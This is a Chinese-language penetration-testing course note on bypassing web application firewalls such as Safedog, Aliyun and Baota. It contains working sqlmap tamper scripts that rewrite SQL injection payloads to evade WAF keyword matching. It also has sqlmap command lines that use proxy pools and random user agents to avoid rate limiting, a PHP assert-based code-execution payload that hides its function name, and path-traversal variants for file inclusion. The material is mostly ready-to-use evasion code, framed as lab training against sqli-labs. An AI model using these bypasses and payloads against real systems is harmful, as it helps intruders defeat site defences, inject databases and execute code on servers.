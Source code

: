 <a name="vvOWn"></a>
# 一、思维导图
![waf绕过-小迪安全.png](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647412832696-1bd484a8-679c-43b2-b41c-0e1b54984746.png#clientId=ueec5eb81-dbca-4&from=drop&id=u66a297f1&originHeight=2370&originWidth=1192&originalType=binary&ratio=1&rotation=0&showTitle=false&size=264839&status=done&style=none&taskId=u80526706-c093-4e65-a934-558f5ae0f0e&title=)
<a name="cL9jd"></a>
# 二、今日内容
![](https://cdn.nlark.com/yuque/0/2022/webp/2476579/1647413019478-b1c42c81-5dc0-4fea-8428-d141fa701e1a.webp#clientId=ub0989269-2c3a-4&from=paste&id=u78ef4403&originHeight=442&originWidth=942&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u0a89965c-feaf-4b03-8527-d47e984090e&title=)
<a name="eZJGa"></a>
# 三、SQL注入
使用如sqlmap等工具注入时，为防止CC拦截，修改数据包us头模仿爬虫，或使用代理池

安全狗：参考之前payload

Aliyun：基本修改指纹即可

宝塔：匹配关键字，包括“/*”，注入语句的每个“/*”都改为“%00/*”

sqlmap语句示范：sqlmap --proxy="http://127.0.0.1:8080" --tamper="waf.py" --random-agent

sqlmap也可以用“--user-agent”指定ua 

代理池小迪老师推荐：[https://www.kuaidaili.com/pricing/#tps](https://www.kuaidaili.com/pricing/#tps)<br />安全狗payload文章：[https://www.cnblogs.com/-mo-/p/11677524.html](https://www.cnblogs.com/-mo-/p/11677524.html)<br />**waf-dog.py小迪老师课堂提供**
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2022 sqlmap developers (https://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""


from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload,**kwargs):
    retVal =""
    if payload:
        payload = payload.replace("union","%23a%0aunion")
        payload = payload.replace("select","/*!4457select*/")
        payload = payload.replace("%20","%23a%0a")
        payload = payload.replace(" ","%23a%0a")
        payload = payload.replace("database()","database%23a%0a()")
    return payload

```
网友提供版本
```python
#!/usr/bin/env python

"""
Copyright (c) 2006-2020 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.compat import xrange
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with comments '/**/'

    Tested against:
        * Microsoft SQL Server 2005
        * MySQL 4, 5.0 and 5.5
        * Oracle 10g
        * PostgreSQL 8.3, 8.4, 9.0

    Notes:
        * Useful to bypass weak and bespoke web application firewalls

    >>> tamper('SELECT id FROM users')
    'SELECT/**/id/**/FROM/**/users'
    """

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue

            retVal += payload[i]

    return retVal
```
```vue
python sqlmap.py -u "http://test.xiaodi8.com/sqlilabs/Less-2/?id=1" --proxy="http:tps123.kdlapi.com:15818" --tamper="waf-dog.py" --random-agent
```

宝塔防火墙在安全狗的基础上增加了%00截断<br />![](https://cdn.nlark.com/yuque/0/2022/png/2476579/1647417529337-ccc2b6b9-3d74-4af3-b951-74da3b939281.png#clientId=ub0989269-2c3a-4&from=paste&id=u7798afc3&originHeight=236&originWidth=1079&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=ud13608f4-2ce2-418c-a918-15d5cf7a3c3&title=)
<a name="pWMQb"></a>
# 四、文件上传
php 截断，参考之前payload上传，绕过waf<br />和前面文件上传专题的绕过方法一样。
<a name="ihkt1"></a>
# 五、XSS跨站
利用xss trike绕过，加上--timeout或者--proxy绕过cc

xss trike项目地址:[https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
<a name="FEUI1"></a>
# 六、RCE执行
加密编码绕过？算法可逆？关键字绕过？提交方法？各种测试?
```vue
txt=$y=str_replace('x','','pxhpxinxfo()');assert($y);&submit=%E6%8F%90%E4%BA%A4ce
```
<a name="TJ4nW"></a>
# 七、文件包含
以下几种：..\ ..../ ..\.\等<br /> <br />涉及资源：

- 宝塔官网：https://www.bt.cn/
- safedog官网：[http://free.safedog.cn/website_safedog.html](http://free.safedog.cn/website_safedog.html)

参考：https://www.cnblogs.com/darkerg/p/14779017.html<br />[WAF攻防实战笔记v1.0--Bypass.pdf](https://www.yuque.com/attachments/yuque/0/2022/pdf/2476579/1647417767791-b31024fb-3496-49ee-bf33-710ffb782f7a.pdf)
